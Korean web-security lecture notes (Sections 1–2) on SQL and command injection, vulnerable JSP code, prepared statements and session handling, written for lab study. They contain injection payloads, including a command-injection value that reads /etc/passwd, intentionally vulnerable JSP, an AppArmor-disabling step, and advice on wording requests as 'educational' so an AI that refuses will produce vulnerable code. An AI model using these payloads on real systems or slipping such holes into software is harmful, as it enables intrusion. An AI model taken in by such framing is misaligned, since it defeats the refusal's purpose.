$ http_proxy=http://192.168.186.132:8080 wget http://example.com
```

**또는 환경 변수로 설정:**

```bash
$ export http_proxy=http://192.168.186.132:8080
$ export https_proxy=http://192.168.186.132:8080
$ wget http://example.com
```

#### 로그 확인: Proxy 서버 IP 확인

**웹 서버에서 로그 확인:**

```bash
$ sudo tail -f /var/log/nginx/access.log
```

**예상 로그:**

```
192.168.186.132 - - [29/Dec/2025:09:55:00 +0900] "GET / HTTP/1.0" 200 1234 "-" "Wget/1.21.2"
```

📌 **노트**: 접근자 IP가 **원래 클라이언트 IP가 아닌 Proxy IP (192.168.186.132)**로 기록됩니다!

#### Proxy 우회 접속의 실전 활용

**시나리오: 해커의 신분 은닉**


📌 **노트**: 국제 공조 없이는 **실제 해커 추적이 극히 어렵습니다**.

---

### 📟 `tail -f` - 실시간 로그 모니터링

#### 명령어 개요

**목적**: 파일의 끝부분을 실시간으로 출력 (로그 모니터링)
**사용 시나리오**:
- 웹 서버 접근 로그 실시간 확인
- 애플리케이션 에러 로그 모니터링
- 보안 이벤트 감지

#### 기본 문법

```bash
$ tail [옵션] <파일명>
```

#### 주요 옵션 설명

| 옵션 | 의미 | 사용 목적 | 예시 |
|:-:|:-:|:-:|:-:|
| `-f` | Follow (실시간) | 계속해서 변경 사항 출력 | `tail -f access.log` |
| `-n <줄수>` | 출력 줄 수 지정 | 마지막 N줄만 출력 | `tail -n 50 access.log` |
| `-F` | 파일 재생성 감지 | 로그 로테이션 대응 | `tail -F access.log` |

#### 실행 예제 1: Nginx 접근 로그 실시간 모니터링

```bash
$ sudo tail -f /var/log/nginx/access.log
```

**예상 출력:**

```
192.168.186.130 - - [29/Dec/2025:10:00:01 +0900] "GET /index.html HTTP/1.1" 200 1234 "-" "Mozilla/5.0"
192.168.186.130 - - [29/Dec/2025:10:00:02 +0900] "GET /style.css HTTP/1.1" 200 5678 "http://192.168.186.131/" "Mozilla/5.0"
192.168.186.132 - - [29/Dec/2025:10:00:05 +0900] "GET /admin HTTP/1.1" 404 567 "-" "Wget/1.21.2"
```

**출력 해석:**

- **첫 번째 필드**: 접근자 IP
- **네 번째 필드**: 접근 시간
- **다섯 번째 필드**: HTTP 메서드 및 요청 경로
- **여섯 번째 필드**: HTTP 상태 코드 (200 = 성공, 404 = Not Found)
- **일곱 번째 필드**: 응답 크기 (bytes)

💡 **중요!**: **Ctrl + C**를 눌러야 `tail -f` 명령이 종료됩니다.

---

## 6. MySQL 클라이언트 접속

### 📟 `mysql` - MySQL 클라이언트 접속

#### 명령어 개요

**목적**: 원격 또는 로컬 MySQL/MariaDB 데이터베이스에 접속
**사용 시나리오**:
- 데이터베이스 관리 및 쿼리 실행
- SQL Injection 테스트
- 백업 및 복구 작업

#### 기본 문법

```bash
$ mysql -u <사용자명> -p -h <호스트> [데이터베이스명]
```

#### 주요 옵션 설명

| 옵션 | 의미 | 사용 목적 | 예시 |
|:-:|:-:|:-:|:-:|
| `-u` | User (사용자명) | DB 접속 계정 지정 | `-u root` |
| `-p` | Password (비밀번호) | 비밀번호 입력 활성화 | `-p` (입력 프롬프트) |
| `-h` | Host (호스트) | 원격 서버 지정 | `-h 192.168.186.130` |
| `-P` | Port (포트) | 포트 지정 (기본 3306) | `-P 3306` |
| `-D` | Database | 접속 시 DB 선택 | `-D clouddb` |

⚠️ **주의**: **`-p` 옵션을 빠뜨리면** 비밀번호 입력 없이 "Access Denied" 오류가 발생합니다!

#### 실행 예제 1: 원격 MySQL 접속

```bash
$ mysql -u root -p -h 192.168.186.130
```

**입력 프롬프트:**

```
Enter password: [비밀번호 입력]
```

**성공 시 출력:**

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 45
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

✅ **MariaDB [(none)]>**: 정상 접속 (현재 DB 선택 안 됨)

#### 실행 예제 2: 데이터베이스 선택하여 접속

```bash
$ mysql -u root -p -h 192.168.186.130 -D clouddb
```

**성공 시 출력:**

```
MariaDB [clouddb]>
```

✅ **MariaDB [clouddb]>**: clouddb 데이터베이스에 접속됨

#### 자주 발생하는 오류

**1. `-p` 옵션 누락**

```bash
$ mysql -u root -h 192.168.186.130  # -p 옵션 없음!
ERROR 1045 (28000): Access denied for user 'root'@'192.168.186.131' (using password: NO)
```

**원인**: 비밀번호 입력 프롬프트가 뜨지 않음
**해결**: `-p` 옵션 추가

**2. 원격 접속 권한 없음**

```bash
$ mysql -u root -p -h 192.168.186.130
Enter password: ****
ERROR 1130 (HY000): Host '192.168.186.131' is not allowed to connect to this MariaDB server
```

**원인**: MySQL 서버에서 원격 접속 허용 안 됨
**해결**: DB 서버에서 권한 부여
```sql
GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.186.%' IDENTIFIED BY '비밀번호';
FLUSH PRIVILEGES;
```

---

### 📋 MySQL 기본 SQL 명령어

#### 데이터베이스 목록 조회

```sql
MariaDB [(none)]> SHOW DATABASES;
```

**예상 출력:**

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| clouddb            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)
```

#### 데이터베이스 선택

```sql
MariaDB [(none)]> USE clouddb;
Database changed
MariaDB [clouddb]>
```

#### 테이블 목록 조회

```sql
MariaDB [clouddb]> SHOW TABLES;
```

**예상 출력:**

```
+-------------------+
| Tables_in_clouddb |
+-------------------+
| admin_info        |
| board             |
| user_info         |
+-------------------+
3 rows in set (0.001 sec)
```

#### 테이블 구조 확인

```sql
MariaDB [clouddb]> DESC user_info;
```

**예상 출력:**

```
+-----------+--------------+------+-----+---------+----------------+
| Field     | Type         | Null | Key | Default | Extra          |
+-----------+--------------+------+-----+---------+----------------+
| id        | int(11)      | NO   | PRI | NULL    | auto_increment |
| username  | varchar(50)  | NO   |     | NULL    |                |
| password  | varchar(100) | NO   |     | NULL    |                |
| priority  | int(11)      | YES  |     | 1       |                |
+-----------+--------------+------+-----+---------+----------------+
4 rows in set (0.001 sec)
```

---

## 7. Union Injection 복습

### 🎯 Union Injection이란?

**Union Injection**: `UNION` SQL 구문을 이용하여 **다른 테이블의 데이터를 조회**하는 SQL Injection 기법

#### Union Injection 조건

💡 **중요!**: Union으로 연결되는 두 SELECT 문의 **컬럼 수가 동일**해야 합니다.

```sql
SELECT col1, col2, col3 FROM table1
UNION
SELECT col1, col2, col3 FROM table2;  -- 컬럼 수 3개로 동일!
```

**잘못된 예:**

```sql
SELECT col1, col2 FROM table1  -- 컬럼 2개
UNION
SELECT col1, col2, col3 FROM table2;  -- 컬럼 3개 (오류 발생!)
```

---

### 📟 Union Injection 실습

#### 시나리오: 관리자 정보 탈취

**상황**: 사용자 정보 조회 페이지에서 SQL Injection 취약점 발견

**정상적인 쿼리:**

```sql
SELECT username, email FROM user_info WHERE id = 1;
```

**공격 쿼리 (Union Injection):**

```sql
SELECT username, email FROM user_info WHERE id = 1
UNION
SELECT username, password FROM admin_info;
```

**실행 결과:**

```
+----------+------------------+
| username | email            |
+----------+------------------+
| user1    | user1@example.com|
| admin    | admin_password123|
| root     | root_password456 |
+----------+------------------+
```

📌 **노트**: 관리자 테이블 (`admin_info`)의 **비밀번호가 그대로 노출**됩니다!

---

### 🔐 보안 고려사항: Union Injection 방어

#### 방어 방법 1: Prepared Statement 사용

**취약한 코드 (JSP):**

```jsp
<%
String id = request.getParameter("id");
String query = "SELECT username, email FROM user_info WHERE id = " + id;
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(query);  // SQL Injection 취약!
%>
```

**안전한 코드 (Prepared Statement):**

```jsp
<%
String id = request.getParameter("id");
String query = "SELECT username, email FROM user_info WHERE id = ?";
PreparedStatement pstmt = conn.prepareStatement(query);
pstmt.setInt(1, Integer.parseInt(id));  // 파라미터 바인딩
ResultSet rs = pstmt.executeQuery();  // SQL Injection 방어!
%>
```

💡 **중요!**: Prepared Statement는 **입력값을 문자열로 인식**하므로, SQL 구문이 실행되지 않습니다.

#### 방어 방법 2: 입력값 검증

```jsp
<%
String id = request.getParameter("id");

// 숫자만 허용
if (!id.matches("^[0-9]+$")) {
    out.println("Invalid input!");
    return;
}

String query = "SELECT username, email FROM user_info WHERE id = " + id;
%>
```

---

## 8. Command Injection 복습

### 🎯 Command Injection이란?

**Command Injection**: 웹 애플리케이션에서 **시스템 명령어를 실행할 수 있는 취약점**

#### 취약점 발생 원인

웹 애플리케이션이 사용자 입력을 **시스템 명령어의 일부로 사용**할 때 발생:

```jsp
<%
String ip = request.getParameter("ip");
Runtime.getRuntime().exec("ping -c 4 " + ip);  // 취약!
%>
```

**정상 입력:**

```
ip=192.168.1.1
→ ping -c 4 192.168.1.1 (정상 실행)
```

**공격 입력:**

```
ip=192.168.1.1; cat /etc/passwd
→ ping -c 4 192.168.1.1; cat /etc/passwd (추가 명령어 실행!)
```

---

### 📟 Command Injection 실습

#### Tomcat 9에서의 보안 제약

강의에서 언급된 문제:

> "Tomcat 9로 업그레이드 후 Command Injection이 동작하지 않았습니다. 보안상 이유로 Tomcat이 일부 위험한 명령어 실행을 차단합니다."

**해결 방법 (Ubuntu 전용):**

```bash
$ sudo aa-disable /usr/sbin/tomcat9
```

**`aa-disable` 설명:**
- **AppArmor (Application Armor)**: Ubuntu의 보안 모듈
- `aa-disable`: 특정 프로그램의 AppArmor 보안 정책 비활성화

⚠️ **주의**: 이 설정은 **학습 목적**으로만 사용하세요. 실제 운영 환경에서는 절대 비활성화하지 마세요!

#### 서비스 재시작

```bash
$ sudo systemctl daemon-reload
$ sudo systemctl restart tomcat9
```

---

## 9. 취약한 JSP 게시판 만들기

### 🎯 학습 목표

강의에서 AI (DeepSeek)를 활용하여 **의도적으로 취약한 게시판**을 만드는 방법을 배웠습니다.

#### 왜 취약한 게시판을 만드는가?

1. **XSS 공격 실습**: Cross-Site Scripting 취약점 테스트
2. **SQL Injection 테스트**: 게시판 검색 기능 취약점 확인
3. **세션 탈취 실습**: 쿠키 값 획득

---

### 🤖 AI (DeepSeek) 활용 팁

강사님의 조언:

> 📌 **노트**: "ChatGPT는 도덕, 윤리, 법적 제한이 많아 보안 코드 생성을 거부합니다. 하지만 **DeepSeek**는 교육 목적임을 명확히 하면 취약한 코드를 생성해줍니다."

**효과적인 AI 질문 방법:**

```
❌ 나쁜 질문: "SQL Injection 취약한 게시판 만들어줘"
→ AI가 거부할 가능성 높음

✅ 좋은 질문: "교육 목적으로 SQL Injection 취약점을 실습하기 위한 게시판 JSP 코드를 작성해주세요. 데이터베이스는 MySQL이고, 테이블은 board(id, title, content, author)입니다."
→ 명확한 목적과 조건 제시
```

**질문 시 주의사항:**
1. **한 번에 2-3개 조건만** 제시 (너무 많으면 누락 발생)
2. **단계별로 질문** (DB 생성 → 테이블 생성 → JSP 코드)
3. **교육 목적 명시**

---

### 📋 게시판 데이터베이스 설계

#### 데이터베이스 및 테이블 생성

```sql
-- 데이터베이스 생성
CREATE DATABASE IF NOT EXISTS clouddb;
USE clouddb;

-- 게시판 테이블 생성
CREATE TABLE IF NOT EXISTS board (
    id INT AUTO_INCREMENT PRIMARY KEY,
    title VARCHAR(200) NOT NULL,
    content TEXT NOT NULL,
    author VARCHAR(50) NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 샘플 데이터 삽입
INSERT INTO board (title, content, author) VALUES
('환영합니다', '게시판에 오신 것을 환영합니다.', 'admin'),
('공지사항', '시스템 점검 안내', 'admin'),
('테스트 글', '테스트 내용입니다.', 'user1');
```

---

### 📄 취약한 JSP 게시판 코드

#### 게시글 목록 (list.jsp)

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.sql.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>게시판</title>
</head>
<body>
    <h1>게시판</h1>
    <table border="1">
        <tr>
            <th>번호</th>
            <th>제목</th>
            <th>작성자</th>
            <th>작성일</th>
        </tr>
        <%
        Connection conn = null;
        Statement stmt = null;
        ResultSet rs = null;

        try {
            Class.forName("com.mysql.cj.jdbc.Driver");
            conn = DriverManager.getConnection(
                "jdbc:mysql://192.168.186.130:3306/clouddb",
                "root",
                "password"
            );
            stmt = conn.createStatement();
            rs = stmt.executeQuery("SELECT * FROM board ORDER BY id DESC");

            while (rs.next()) {
        %>
        <tr>
            <td><%= rs.getInt("id") %></td>
            <td><a href="view.jsp?id=<%= rs.getInt("id") %>"><%= rs.getString("title") %></a></td>
            <td><%= rs.getString("author") %></td>
            <td><%= rs.getTimestamp("created_at") %></td>
        </tr>
        <%
            }
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            if (rs != null) rs.close();
            if (stmt != null) stmt.close();
            if (conn != null) conn.close();
        }
        %>
    </table>
    <a href="write.html">글쓰기</a>
</body>
</html>
```

---

## 10. Prepared Statement 보안 메커니즘

### 🔐 Prepared Statement란?

**Prepared Statement**: SQL 쿼리와 파라미터를 **분리하여 실행**하는 보안 메커니즘

#### 동작 원리



---

### 📟 취약한 코드 vs 안전한 코드 비교

#### ❌ 취약한 코드 (문자열 연결)

```jsp
<%
String id = request.getParameter("id");
String query = "SELECT * FROM board WHERE id = " + id;
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(query);
%>
```

**공격 시나리오:**

```
입력: id=1 OR 1=1
→ SELECT * FROM board WHERE id = 1 OR 1=1 (모든 게시글 조회!)
```

---

#### ✅ 안전한 코드 (Prepared Statement)

```jsp
<%
String id = request.getParameter("id");
String query = "SELECT * FROM board WHERE id = ?";
PreparedStatement pstmt = conn.prepareStatement(query);
pstmt.setInt(1, Integer.parseInt(id));  // 첫 번째 ? 에 id 값 바인딩
ResultSet rs = pstmt.executeQuery();
%>
```

**공격 시도 시:**

```
입력: id=1 OR 1=1
→ setInt()가 "1 OR 1=1" 전체를 하나의 문자열로 인식
→ SQL Injection 실패!
```

---

### 📋 Prepared Statement 장점

| 항목 | 설명 |
|:-:|:-:|
| **SQL Injection 방어** | 가장 중요한 장점 |
| **성능 향상** | 쿼리가 미리 컴파일되어 재사용 가능 |
| **코드 가독성** | 쿼리가 명확하게 분리됨 |
| **타입 안전성** | setInt(), setString() 등으로 타입 지정 |

💡 **중요!**: **모든 사용자 입력을 받는 쿼리**에는 Prepared Statement를 **필수**로 사용하세요!

---

## ✅ Section 1 학습 체크리스트

학습한 내용을 확인하세요:

- [ ] VM 클론 개념 및 Full Clone vs Linked Clone 차이 이해
- [ ] `ifconfig` / `ip addr`로 IP 주소 확인 가능
- [ ] `apt update` vs `apt upgrade` 차이점 명확히 이해
- [ ] `apt install`로 패키지 설치 및 옵션 사용 가능
- [ ] `wget` 명령어로 웹에서 파일 다운로드 가능
- [ ] WebGoat 설치 및 구동 방법 숙지
- [ ] TinyProxy 설정 및 Proxy 우회 접속 이해
- [ ] `mysql` 클라이언트로 원격 DB 접속 가능
- [ ] Union Injection 개념 및 조건 이해
- [ ] Command Injection 취약점 및 방어 방법 숙지
- [ ] AI를 활용한 취약한 코드 생성 방법 이해
- [ ] Prepared Statement의 중요성 및 사용법 숙지

---

## 📋 Section 1 핵심 요약

### 1. VM 환경 설정
- **Clone**: 동일한 환경을 빠르게 복제 (Full Clone 권장)
- **IP 확인**: `ifconfig` 또는 `ip addr`로 확인 필수

### 2. 리눅스 패키지 관리
- **`apt update`**: 패키지 정보만 갱신 (변경 없음)
- **`apt upgrade`**: 실제 패키지 업그레이드 (시스템 변경)
- **`apt install`**: 새로운 패키지 설치

### 3. 주요 명령어
- **`wget`**: 웹에서 파일 다운로드
- **`tail -f`**: 로그 실시간 모니터링
- **`mysql -u [사용자] -p -h [호스트]`**: 원격 DB 접속

### 4. 보안 개념
- **Proxy 서버**: 중계 서버를 통한 우회 접속 (익명성, 추적 어려움)
- **Union Injection**: 컬럼 수를 맞춰서 다른 테이블 조회
- **Command Injection**: 시스템 명령어 실행 취약점
- **Prepared Statement**: SQL Injection 방어의 핵심 메커니즘

### 5. 실무 팁
- **코드 이해 능력**: IT 분야 종사자는 코드를 읽을 줄 알아야 함
- **AI 활용**: DeepSeek 등 AI 도구를 활용하되, 명확한 목적과 단계별 질문
- **반복 학습**: 수업 외 개인 실습 시간 확보 필수

---

**다음 섹션 예고**: Section 2에서는 **XSS (Cross-Site Scripting) 공격 및 쿠키/세션 탈취** 기법을 심도 있게 다룹니다.

---

*이 강의 노트는 2025년 12월 29일 웹 애플리케이션 보안 강의 STT를 바탕으로 작성되었습니다.*
# Section 2: XSS 공격 및 세션 탈취 (Cross-Site Scripting & Session Hijacking)

## 목차
1. [HTTP-Only 옵션과 쿠키 보안](#http-only-옵션과-쿠키-보안)
2. [세션(Session) 메커니즘 심화](#세션session-메커니즘-심화)
3. [로그인 시스템 구현](#로그인-시스템-구현)
4. [세션 기반 접근 제어](#세션-기반-접근-제어)
5. [XSS 공격 실습](#xss-공격-실습)
6. [세션 탈취 공격](#세션-탈취-공격)
7. [Netcat을 이용한 세션 수집](#netcat을-이용한-세션-수집)

---

## HTTP-Only 옵션과 쿠키 보안

### 1. HTTP-Only 옵션이란?

HTTP-Only는 **웹 브라우저에서 JavaScript를 통한 쿠키 접근을 차단**하는 보안 옵션입니다.

#### 작동 원리



### 2. 쿠키 탈취 시도 결과 비교

| 설정 상태 | JavaScript 코드 | 결과 | 보안 수준 |
|---------|---------------|-----|---------|
| **HTTP-Only ON** | `alert(document.cookie)` | 빈 문자열 (`""`) | 🔒 안전 |
| **HTTP-Only OFF** | `alert(document.cookie)` | `JSESSIONID=A1B2C3...` | ⚠️ 위험 |

### 3. 실습: 쿠키 탈취 실패 경험

**시나리오**: 게시판에 XSS 코드를 삽입했지만 쿠키가 훔쳐지지 않았습니다.

#### 이유 분석

```javascript
// 공격자의 시도
<script>
  alert(document.cookie);  // 빈 문자열만 출력됨
</script>
```

> **🔍 중요**:
> - 웹 서버가 **디폴트로 HTTP-Only 옵션을 활성화**했기 때문
> - 브라우저가 JavaScript의 쿠키 접근 요청을 **자동으로 차단**
> - 이는 **현대 웹 서버의 기본 보안 정책**

#### 개발자 도구에서 확인

**Chrome/Edge 개발자 도구 → Application → Cookies**

```
Name                Value                    HttpOnly
JSESSIONID          A7F8E2D1C9B4A3E5         ✓
```

체크된 HttpOnly 옵션이 JavaScript 접근을 막고 있습니다.

---

## 세션(Session) 메커니즘 심화

### 1. 세션의 필요성

웹은 기본적으로 **Stateless(무상태)** 프로토콜입니다. 각 HTTP 요청은 독립적이며 이전 요청을 기억하지 못합니다.



### 2. 세션과 쿠키의 관계

| 구분 | 세션 (Session) | 쿠키 (Cookie) |
|-----|--------------|--------------|
| **저장 위치** | 서버 메모리/디스크 | 클라이언트 브라우저 |
| **보안성** | 높음 (서버 측 저장) | 낮음 (클라이언트 노출) |
| **저장 용량** | 제한 없음 | 4KB 제한 |
| **생명 주기** | 서버 설정 (기본 30분) | 만료 시간 설정 가능 |
| **용도** | 사용자 인증 정보 | 세션 ID 전달 매체 |

### 3. 세션 동작 과정



---

## 로그인 시스템 구현

### 1. 로그인 페이지 (login.jsp)

```html
<!DOCTYPE html>
<html>
<head>
    <title>로그인</title>
</head>
<body>
    <h2>로그인</h2>
    <form action="loginCheck.jsp" method="post">
        <table>
            <tr>
                <td>아이디:</td>
                <td><input type="text" name="uName" required></td>
            </tr>
            <tr>
                <td>비밀번호:</td>
                <td><input type="password" name="pass" required></td>
            </tr>
            <tr>
                <td colspan="2">
                    <input type="submit" value="로그인">
                </td>
            </tr>
        </table>
    </form>
</body>
</html>
```

#### 주요 포인트

| 속성/요소 | 설명 | 중요도 |
|---------|------|-------|
| `method="post"` | 비밀번호를 URL에 노출하지 않기 위함 | ⭐⭐⭐ |
| `name="uName"` | 서버에서 `request.getParameter("uName")`으로 받음 | ⭐⭐⭐ |
| `type="password"` | 입력 시 문자를 `****`로 표시 | ⭐⭐ |
| `required` | HTML5 클라이언트 측 유효성 검사 | ⭐ |

### 2. 로그인 처리 (loginCheck.jsp)

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>
<%@ page import="java.sql.*" %>

<%
    // 1. 파라미터 받기
    String uName = request.getParameter("uName");
    String pass = request.getParameter("pass");

    // 2. 데이터베이스 연결 정보
    String dbURL = "jdbc:mysql://localhost:3306/mydb";
    String dbUser = "root";
    String dbPass = "password";

    Connection conn = null;
    PreparedStatement pstmt = null;
    ResultSet rs = null;

    try {
        // 3. 데이터베이스 연결
        Class.forName("com.mysql.jdbc.Driver");
        conn = DriverManager.getConnection(dbURL, dbUser, dbPass);

        // 4. Prepared Statement 사용 (SQL Injection 방지)
        String query = "SELECT * FROM users WHERE username = ? AND password = ?";
        pstmt = conn.prepareStatement(query);
        pstmt.setString(1, uName);    // 첫 번째 물음표에 uName 바인딩
        pstmt.setString(2, pass);     // 두 번째 물음표에 pass 바인딩

        // 5. 쿼리 실행
        rs = pstmt.executeQuery();

        // 6. 로그인 성공 여부 확인
        if (rs.next()) {
            // ✅ 로그인 성공

            // 7. 세션에 사용자 정보 저장
            session.setAttribute("uid", rs.getInt("id"));
            session.setAttribute("uName", uName);
            session.setAttribute("priority", rs.getInt("priority"));
            session.setAttribute("login", true);

            // 8. 메인 페이지로 리다이렉트
            response.sendRedirect("main.jsp");

        } else {
            // ❌ 로그인 실패
            out.println("<script>");
            out.println("alert('아이디 또는 비밀번호가 틀렸습니다.');");
            out.println("history.back();");
            out.println("</script>");
        }

    } catch (Exception e) {
        e.printStackTrace();
        out.println("데이터베이스 오류: " + e.getMessage());
    } finally {
        // 9. 리소스 정리
        if (rs != null) try { rs.close(); } catch(Exception e) {}
        if (pstmt != null) try { pstmt.close(); } catch(Exception e) {}
        if (conn != null) try { conn.close(); } catch(Exception e) {}
    }
%>
```

### 3. 세션 저장 메커니즘 상세

#### setAttribute() 동작 원리

```java
session.setAttribute("uid", rs.getInt("id"));
session.setAttribute("uName", uName);
session.setAttribute("priority", rs.getInt("priority"));
session.setAttribute("login", true);
```

**내부 구조** (Key-Value 쌍):

```
세션 ID: A7F8E2D1C9B4A3E5
┌────────────┬─────────────────┐
│    Key     │      Value      │
├────────────┼─────────────────┤
│ uid        │ 0               │
│ uName      │ "admin"         │
│ priority   │ 0               │
│ login      │ true            │
└────────────┴─────────────────┘
```

#### getAttribute() 사용 예시

```jsp
<%
    // 세션에서 값 가져오기
    String userName = (String) session.getAttribute("uName");
    Integer uid = (Integer) session.getAttribute("uid");
    Boolean isLoggedIn = (Boolean) session.getAttribute("login");

    if (isLoggedIn != null && isLoggedIn) {
        out.println("환영합니다, " + userName + "님!");
    }
%>
```

> **⚠️ 중요**: `getAttribute()`는 `Object` 타입을 반환하므로 **형변환(Casting)** 필요

---

## 세션 기반 접근 제어

### 1. 메인 페이지 보호 (main.jsp)

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<%
    // 🔒 세션 체크 로직
    Boolean isLoggedIn = (Boolean) session.getAttribute("login");

    // 로그인 여부 확인
    if (isLoggedIn == null || !isLoggedIn) {
        // 로그인하지 않았으면 로그인 페이지로 강제 이동
        response.sendRedirect("login.jsp");
        return;  // 아래 코드 실행 방지
    }

    // 세션에서 사용자 정보 가져오기
    String userName = (String) session.getAttribute("uName");
%>

<!DOCTYPE html>
<html>
<head>
    <title>메인 페이지</title>
</head>
<body>
    <h1>환영합니다, <%= userName %>님!</h1>
    <ul>
        <li><a href="my_page.jsp">마이 페이지</a></li>
        <li><a href="board/list.jsp">게시판</a></li>
        <li><a href="logout.jsp">로그아웃</a></li>
    </ul>
</body>
</html>
```

#### return 문의 중요성

